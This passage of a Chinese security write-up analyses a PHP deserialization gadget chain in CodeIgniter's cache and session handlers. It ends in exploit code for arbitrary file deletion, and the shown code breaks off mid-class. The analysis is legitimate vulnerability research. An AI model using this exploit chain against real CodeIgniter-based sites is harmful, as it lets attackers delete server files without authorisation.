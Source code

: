 ```php
$reserved = config('Cache')->reservedCharacters ?? self::RESERVED_CHARACTERS;
```

获取配置中的保留字符列表。如果 `config('Cache')->reservedCharacters` 存在，则将其赋值给 `$reserved`；否则，使用 `self::RESERVED_CHARACTERS` 的默认值。

```php
public string $reservedCharacters = '{}()/\\@:';
```

```php
return strlen($prefix . $key) > static::MAX_KEY_LENGTH ? $prefix . md5($key) : $prefix . $key;
```

-   首先，计算添加前缀后键的长度是否大于预定义的最大键长度 `static::MAX_KEY_LENGTH`。
-   如果大于最大键长度，则返回将 `$prefix . md5($key)` 处理后的哈希值作为缓存键。这是为了确保最终返回的键不会超过最大键长度。
-   如果小于等于最大键长度，则返回将 `$prefix . $key` 拼接作为缓存键

经过测试，在 delete 方法中，如果传入 `$key` 为要删除的文件名，在经过 `validateKey` 处理后，不会对 key 照常改变，直接返回 `key`, 而 `$this->prefix` 不需要修改，默认就行

在拼接文件路径的 `$this->path` 可以是绝对路径，也可以是相对路径，默认是 public 目录下

在写 exp 的过程中，遇到一个问题，就是类的属性都是 `protected` 类型的，不能直接修改值

因为这个 cms 安装条件是 PHP7.4+ , 由于 `PHP7.1+` 对属性类型不敏感，可以将 `protected` 修改为 `public` 类型

## 最后的 exp

```php
//任意文件删除  
<?php  
namespace CodeIgniter\Cache\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
use CodeIgniter\Session\Handlers\MemcachedHandler;  
class RedisHandler extends BaseHandler  
{  
    public $redis;  
    public function __construct()  
    {  
        $this->redis =new MemcachedHandler();  
    }  
}  

namespace CodeIgniter\Session\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
use CodeIgniter\Cache\Handlers\FileHandler;  
class MemcachedHandler extends BaseHandler  
{  
    public $memcached ;  
    public $lockKey ;  

    public function __construct()  
    {  
        $this->memcached=new FileHandler();  
        $this->lockKey = "1.txt"; //文件名  
    }  
}  

namespace CodeIgniter\Session\Handlers;  
abstract class BaseHandler  
{  
}  

namespace CodeIgniter\Cache\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
class FileHandler extends BaseHandler  
```